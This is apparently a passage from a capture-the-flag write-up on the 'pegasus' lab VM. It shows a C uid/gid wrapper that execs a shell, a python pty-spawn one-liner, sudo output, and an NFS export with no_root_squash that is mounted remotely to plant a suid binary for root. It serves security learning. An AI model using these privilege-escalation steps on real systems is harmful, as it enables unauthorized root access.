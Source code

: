 This is probably because our little trainee "mike" is not a real person and is using up all our pty's! No problem, we thought, let's upload our ssh keys... only that failed, because our gid is set to mike and not john. Hmmm.. I wrote a small C wrapper to try and set gid and uid to 1000 (john) but it wouldn't let me set gid. 

``` c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
setreuid(geteuid(), geteuid());
setregid(geteuid(), geteuid());

execv("/bin/dash", argv);
return 0;
}
```

But this did have the nice side-effect of allowing us a to spawn a pty shell!

``` bash
/tmp/a.out
id
uid=1000(john) gid=1001(mike) groups=1000(john),1001(mike)
python -c 'import pty;pty.spawn("/bin/bash")'
john@pegasus:~$ sudo -l
sudo -l
Matching Defaults entries for john on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on this host:
    (root) NOPASSWD: /usr/local/sbin/nfs
```

Nice! Now we can see that john is allowed to start the nfs daemon... Interesting, because /etc/exports lists the following entry:

``` bash
/opt/nfs	*(rw,sync,crossmnt,no_subtree_check,no_root_squash
```

no_root_squash... we can mount it remotely and have our own uid! NFS will not set it to nobody:nobody... 

Over to recrudesce for the last bit of pwning pegasus!

* * *

Before I continue, lets hear it for barrebas and his exploit dev skills.

![](http://www.thepoke.co.uk/wp-content/uploads/2013/11/applause-3.gif)

So, NFS huh ? What can I do with that ? *thinks*... well, I can mount it remotely and drop a file as root on my Kali box, suid the binary and execute it on Pegasus as john.

``` bash
root@kali:~# mount -t nfs 172.16.231.132:/opt/nfs /mnt/nfs
root@kali:~# cd /mnt/nfs
root@kali:/mnt/nfs# ls -la
total 8
drwxr-xr-x 2 root root 4096 Nov 18 03:43 .
drwxr-xr-x 4 root root 4096 Dec 19 13:09 ..
```
